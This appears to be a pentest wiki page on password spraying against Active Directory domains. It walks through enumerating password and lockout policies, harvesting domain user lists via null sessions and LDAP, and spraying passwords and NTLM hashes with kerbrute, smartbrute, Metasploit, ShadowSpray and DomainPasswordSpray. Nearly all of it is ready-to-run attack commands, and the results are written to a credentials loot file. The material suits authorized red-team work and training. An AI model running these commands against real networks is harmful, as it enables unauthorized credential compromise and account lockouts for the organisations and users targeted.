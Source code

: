 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
Cmd > net accounts /domain
PS > Get-ADDefaultDomainPasswordPolicy
PV3 > Get-DomainPolicyData | select -ExpandProperty SystemAccess
```

Example of `net accounts` output:

| Name (EN)                              | Name (RU)                                 | Value |
|----------------------------------------|-------------------------------------------|-------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1     |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90    |
| Minimum password length:               | Минимальная длина пароля:                 | 10    |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24    |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7     |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30    |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30    |



### Fine-Grained Password Policies

- [https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/](https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/)
- [https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/](https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/)
- [https://github.com/n00py/GetFGPP](https://github.com/n00py/GetFGPP)

Map FGPPs to the users they're being applied to (need admin privileges by default):

```powershell
ForEach ($fgpp in (Get-ADFineGrainedPasswordPolicy -Filter * -Properties Description)) {
    $appliesTo = $fgpp | select -ExpandProperty AppliesTo
    $objectClass = (Get-ADObject $appliesTo).ObjectClass

    Write-Host -ForegroundColor Yellow "`r`nFine Grained Password Policy: $fgpp.name"
    $fgpp | Out-Host

    If ($objectClass -eq "group") {
        Get-ADGroupMember $appliesTo -Recursive | ? {$_.objectClass -eq "user"} | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
    ElseIf ($objectClass -eq "user") {
        Get-ADUser $appliesTo | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
}
```

{% hint style="info" %}
When it's critical not to cause a lockout on a user account with a FGPP applied, the safest approach would be to exclude users with `msDS-PSOApplied` or `msDS-ResultantPSO` properties populated (can be read by a regular user) from the spray list.

Check if exists:

```
PS > Get-ADUser snovvcrash -Properties * | select msDS-PSOApplied
PS > Get-ADUser snovvcrash -Properties msDS-ResultantPSO | select msDS-ResultantPSO
```
{% endhint %}




## Get Domain Users



### Non-Authenticated (Null Session)

- [https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions](https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions)

{% content-ref url="/pentest/infrastructure/ad/rid-cycling.md" %}
[rid-cycling.md](rid-cycling.md)
{% endcontent-ref %}

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via **RID Cycling**.

Another approach is to manually request all users via RPC (`$IPC` share):

- CrackMapExec:

```
$ cme smb DCs.txt -u '' -p ''
$ cme smb DCs.txt -u '' -p '' --users
$ cme smb DCs.txt -u '' -p '' --groups
```

- rpcclient:

```
$ rpcclient -N -U '' 192.168.1.11
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
```

- net:

```
$ net rpc group members 'Domain Users' -W 'MEGACORP' -I '192.168.1.11' -U '%'
```

- smbclient (check):

```
$ smbclient -N -U '' -L 192.168.1.11
```

- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) / [enum4linux-ng](https://github.com/cddmp/enum4linux-ng):

```
$ enum4linux -v -a 192.168.1.11 | tee ~/ws/log/enum4linux.out
```

- [nullinux](https://github.com/m8r0wn/nullinux):

```
$ nullinux.py 192.168.1.11
```



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/logs/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/logs/windapsearch.out
$ cat ~/ws/logs/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/logs/windapsearch.out
$ cat ~/ws/logs/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox -e '\$$' | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users-active.txt
```




## Shadow Spray

- [https://github.com/Dec0ne/ShadowSpray](https://github.com/Dec0ne/ShadowSpray)

```
$ python3 pywhisker.py -d megacorp.local -u snovvcrash  -p 'Passw0rd!' --target-list users.txt --action spray -v
```




## Tools



### MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```



### kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://github.com/captain-noob/username-wordlist-generator](https://github.com/captain-noob/username-wordlist-generator)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/logs/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/logs/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/logs/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/logs/kerbrute-passwordspray-*.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```



### pyKerbrute

- [https://github.com/3gstudent/pyKerbrute](https://github.com/3gstudent/pyKerbrute)

```
$ python2 ADPwdSpray.py 192.168.1.11 megacorp.local users.txt ntlmhash fc525c9683e8fe067095ba2ddc971889 udp
```



### smartbrute

- [https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)

Spray single hash against a list of users:

```
$ smartbrute -v brute --delay 100 --no-enumeration -bU users.txt -bh <HASH_TO_SPRAY> kerberos -d megacorp.local --kdc-ip 192.168.1.11
```

Get domain password policy and active users:

```
$ smartbrute -v smart {--policy|--users} ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11
```

Launch smart password spray with a hash:

```
$ smartbrute -v smart --delay 100 -bh <HASH_TO_SPRAY> ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11 kerberos
```



### DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```

